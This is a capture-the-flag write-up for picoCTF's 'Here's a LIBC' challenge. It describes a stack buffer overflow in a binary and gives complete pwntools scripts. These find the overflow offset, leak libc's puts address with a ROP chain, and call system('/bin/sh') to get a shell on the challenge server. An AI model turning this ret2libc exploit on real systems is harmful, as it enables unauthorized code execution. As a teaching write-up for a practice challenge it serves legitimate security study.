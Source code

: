 ## Writeup - Here's a LIBC

Vulnerability:
First, open up the vuln binary with Ghidra to see the decomplied C code. If you look at the `main` function there is a `while`-loop that calls a function `do_stuff`. Inside this function there is a variable of size 112 but it's contents are read through `scanf`. This is a buffer-overflow. The idea now is to write a more than 112 bytes as input and then some code so that we can run that code. That code will essentially pop a shell with `/bin/sh`.


Exploit:
We first try to find how many characters to fill before the malicious code.

Script to find offset:
```python
from pwn import *

io = process("./vuln")
print(io.recvregex(b'!')) # read until we get the prompt
io.sendline(cyclic(500))
io.wait()
core = io.corefile
rsp = core.rsp
info("rsp = %#x", rsp)
pattern = core.read(rsp, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
```

Full exploit:
```python
import sys

from pwn import *

libcelf = {
  "local": "/lib/x86_64-linux-gnu/libc.so.6",
  "remote": "./libc.so.6"
}

mode = sys.argv[1]
print(f"mode: {mode}")
if mode != "local" and mode != "remote": print("exitting.."); sys.exit()

vuln_elf = ELF("./vuln")
r = vuln_elf.process() if mode == "local" else remote("mercury.picoctf.net", sys.argv[2])

libc = ELF(libcelf[mode])

pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

puts_plt = vuln_elf.plt['puts'] #grab plt address of puts function
main_plt = vuln_elf.symbols['main'] #grab address of main
puts_got = vuln_elf.got['puts']

junk = b"A" * 136

log.info(f"main starts @ {hex(main_plt)}")
log.info(f"puts plt @ {hex(puts_plt)}")
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"puts got @ {hex(puts_got)}")

rop1 = b""
rop1 += junk
rop1 += p64(pop_rdi) #fill rip with pop rdi; ret address
rop1 += p64(puts_got) #put address of puts global offset table in the rdi register
rop1 += p64(puts_plt) #call to puts in the procedural link table, looks to rdi for argument (puts_got)
rop1 += p64(main_plt) #return to main of program after tricking it into leaking puts address

print(r.clean()) #clean buffer and print all received bytes
r.sendline(rop1)

print(r.recvline())

received_line = r.recvline().strip()
leak = u64(received_line.ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")

libc.address = leak - libc.symbols['puts']
log.info(f"libc base @ {hex(libc.address)}")
log.info("now we have libc base, we can find system and pwn that sh*t")

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.symbols['system']

log.info(f"/bin/sh located @ {hex(bin_sh)}")
log.info(f"system function located @ {hex(system)}")

rop2 = b""
rop2 += junk
rop2 += p64(ret)
rop2 += p64(pop_rdi) #Once again, pop rdi to place argument in
rop2 += p64(bin_sh) #put /bin/sh into rdi to be passed to system
rop2 += p64(system) #call system with /bin/sh argument from rdi

r.clean()
r.sendline(rop2)
r.interactive()
```

